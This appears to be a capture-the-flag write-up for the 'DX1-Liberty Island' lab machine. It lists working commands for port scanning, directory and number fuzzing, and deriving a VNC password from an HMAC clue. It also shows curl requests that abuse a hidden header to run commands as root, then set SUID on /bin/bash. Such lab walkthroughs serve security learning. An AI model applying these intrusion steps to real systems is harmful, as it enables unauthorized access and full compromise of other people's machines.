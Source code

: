 **Target: 10.10.215.92 DX1-Liberty Island**
(Machine was restarted in the middle of my work, so the target ip address for part of my work changed to 10.10.51.25)

**Initial Access:**\
nmap -Pn  10.10.215.92  -p- --min-rate=5000 |grep open|awk -F '/''{print $1}'|tr '\n' ','	\
Output shows open ports:  80, 5901, 23023

Let’s enumerate these open ports further with nmap: \
nmap -Pn  10.10.215.92  -p 80,5901,23023 --min-rate=5000 -sC -sV -oN nmap.txt \
Output shows:

![image](https://user-images.githubusercontent.com/93153300/200068459-d6266a1c-d2d0-4f77-a3f5-6ba3f6eb276e.png)

Navigate to port 80:

![image](https://user-images.githubusercontent.com/93153300/200068681-74dd63f8-a48c-4087-9607-ba41151fd1b8.png)

There’s a link on the bottom called ‘War in Cyberspace’. Clicking on that link takes us to a directory  /badactors.html.  \
This directory shows a list that seems like it may be usernames or passwords.  Not much more to do here, so let's brute force directories on port 80:

dirsearch -r -u http://10.10.215.92/ -e txt,php,html -f		→ Found directory: 	/robots.txt

Navigate to http://10.10.215.92/robots.txt  	→ 	Page reads: Disallow: /datacubes

Navigate to http://10.10.215.92/datacubes  	→ Automatically redirects to: http://10.10.215.92/datacubes/0000/ 

Seeing the directory /0000/ seems interesting. Perhaps the target has more hidden directories with different numbers. Test this with the following steps:
Step 1: Make a file with a list of numbers 0000-9999.  To create this list run command: \
for i in {0000..9999};do echo $i >> nlist;done\
Step 2: Fuzz the directory with command: \
wfuzz -c -w nlist -u http://10.10.215.92/datacubes/FUZZ/  --hh 274\
Output shows:

![image](https://user-images.githubusercontent.com/93153300/197628116-80ec4786-8cf6-405f-baed-4f31387c51da.png)


Wfuzz found a few hidden directories. Navigating to http://10.10.215.92/datacubes/0451/		shows:

![image](https://user-images.githubusercontent.com/93153300/197627629-912a147b-4a6c-46ee-8e95-8bd82dd96436.png)

This message is telling us what user jacobson's password is for the vnc login. It says the password is the first 8 characters of the hash generated with hmac.  

Let's generate the hmac hash.  \
Google search 'hmac online calculator'. There's plenty of hmac online calculators, we will use the hmac calculator found on https://www.freeformatter.com/hmac-generator.html.  

![image](https://user-images.githubusercontent.com/93153300/197627733-a4fcccd5-5d1b-417b-88cc-b197f684638a.png)

This shows that the input we need in order to calculate the hmac hash is: the string, secret key, and Digest algorithm. These 3 pieces of information are given to us in the message.

String= smashthestate \
hmac hashing algorithm= md5 \
Secret is not as simple, the message gives us clues that we have to piece together to figure out the secret.  

The message says that the secret is the username of the author of the message.  We don't know his username, but the message says that we can find his username in a list called bad actors. 
Earlier, when we enumerated port 80, we found a directory called /badactors.html and it looked like a list of usernames.  Look back at that list, as the message seems to be referring to that list: 

![image](https://user-images.githubusercontent.com/93153300/197627787-7e028e2a-73e1-484e-a372-ef24f25e9aaa.png)

There are many names on this list, and we don't know which username is the correct one.  However, we can take an educated guess based on two pieces of information. 
* 1. The message shows that the authors initials are 'JL'.\
* 2. Looking over the list on /badactors.html, it seems like the usernames consist of first name last name, where the first name is only an initial of his first name. 

Based on this, jlebedev seems to be the secret.  \
Now that we have the string, secret, and the hmac hashing algorithm, let's run the hmac converter.
The hmac converter produces: 311781a1830c1332a903920a59eb6d7a
 
The message tells us his password is the first 8 letters of the hash: 311781a1 \
Now that we have a username and password, log in to vnc with command:\
vncviewer  10.10.215.92:5901   → when it prompts for password enter: 	311781a1\
Vnc opens a gui as user ajacobson.  Open user.txt to get the first flag.

![image](https://user-images.githubusercontent.com/93153300/197627944-85fd8bb9-caf4-4526-bb3c-57fb9d390f82.png)
___________________________________________________________________
**Privilege Escalation:**\
Manual enumeration and running linpeas didn't find anything of interest.  Going back to the desktop, there’s a file called badactors-list.  Opening that file we see it starts by connecting to http://UNATCO:23023:

![image](https://user-images.githubusercontent.com/93153300/197628205-12266368-ba69-4bde-b63f-a7d07472f5fe.png) 

We know from our initial nmap scan that port 23023 is open to the public. Before going to port 23023, add into /etc/hosts: 10.10.215.92 UNATCO.   Navigating to http://UNATCO:23023 shows:

![image](https://user-images.githubusercontent.com/93153300/197628453-e25f9bc2-2f07-4500-b822-15bb70ea8626.png)
 
Not much we can do here, so open tcpdump to listen to this file badactors-list and see if anything interesting shows up when we run the file.  The target shell won’t let us use tcpdump, so download the file to our pc and then we will run tcpdump on locally on the file.  \
To donwload the file:
Step 1: From the target gui, open a terminal
Step 2: Go to the directory where the file badactors-list is located: python3 -m http.server 8000\
Step 3: On our pc run command  →   wget http://10.10.215.92:8000/badactors-list

Now that we have the file on our pc, make the file an executable with command: chmod +x badactors-list. \
Next, run tcpdump listener with command: tcpdump -A -i tun0 port 23023 \
Finally, run badactors-list:    ./badactors-list\
tcpdump captures some interesting information:

![image](https://user-images.githubusercontent.com/93153300/197628500-f7735841-2353-427e-95a1-944d263ad58e.png)

The ‘Clearance-Code’ header is very unusual, and ‘directive=’  seems to run commands.  
Let’s try to use this to run commands:    \
curl http://10.10.215.92:23023 -H "Clearance-Code: 7gFfT74scCgzMqW4EQbu" -d "directive=whoami"   → we get a response: root.    This shows we have remote command execution as root.

Use this to change '/bin/bash' on the target to have suid permissions.  We can do this by running command:\
curl http://10.10.215.92:23023 -H "Clearance-Code: 7gFfT74scCgzMqW4EQbu" -d "directive=chmod 4755 /bin/bash"

Go back to the vnc gui we have on ajacobson.  Open a terminal and run command: /bin/bash -p \
We now have shell as root, open root.txt to get the flag.

![image](https://user-images.githubusercontent.com/93153300/200085771-bd4c8159-6dbf-4761-ae0b-7e68c647f7d0.png)

